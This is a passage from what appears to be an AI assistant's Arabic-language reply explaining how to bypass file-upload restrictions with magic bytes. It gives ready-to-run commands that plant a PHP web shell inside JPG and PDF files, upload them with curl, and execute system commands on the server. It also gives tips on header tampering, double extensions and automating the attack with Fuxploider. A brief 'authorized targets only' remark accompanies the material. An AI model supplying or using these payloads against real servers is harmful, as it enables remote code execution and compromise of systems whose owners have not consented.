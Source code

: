 5. **استخدام ImageMagick لإنشاء ملف صورة مع شيفرة**:
   ```bash
   convert -size 110x110 xc:white shell.jpg
   echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
   curl -X POST -H "Content-Type: image/jpeg" -F "file=@shell.jpg" http://<target>/upload
   curl 'http://<target>/Uploads/shell.jpg?cmd=whoami'
   ```

6. **إضافة بايتات سحرية لأنواع ملفات أخرى**:
   ```bash
   echo -ne '\x25\x50\x44\x46' > shell.pdf
   echo '<?php system($_GET["cmd"]); ?>' >> shell.pdf
   curl -X POST -H "Content-Type: application/pdf" -F "file=@shell.pdf" http://<target>/upload
   curl 'http://<target>/Uploads/shell.pdf?cmd=whoami'
   ```

---

## نصائح إضافية
- **استخدام أدوات الوكيل**: استخدم Burp Suite أو OWASP ZAP لتعديل رؤوس Content-Type ومراقبة الطلبات.
- **دمج مع تقنيات أخرى**: ادمج البايتات السحرية مع تجاوز الامتدادات (مثل shell.php.jpg) أو التلاعب بنوع MIME.
- **اختبار أنواع متعددة**: جرب بايتات سحرية لأنواع ملفات مختلفة (مثل PNG، JPG، GIF، PDF) بناءً على القيود.
- **أتمتة الاختبار**: استخدم Fuxploider لاختبار البايتات السحرية مع امتدادات متعددة:
  ```bash
  python3 fuxploider.py --url http://<target>/upload --extensions php,png --content-type image/png
  ```
- **التحقق من التنفيذ**: تحقق دائمًا من تنفيذ الملف عبر curl أو المتصفح.
- **الاختبار بمسؤولية**: اختبر فقط على أهداف مُصرح بها (مثل بيئات مختبرية أو برامج مكافآت الأخطاء).

إذا كنت تريد شرح خطوة أخرى (مثل Exploit Configuration Files أو Embed Payloads in Image Metadata) بنفس الأسلوب، أو تركيزًا على نوع خادم معين، أخبرني وسأقدم ردًا مخصصًا!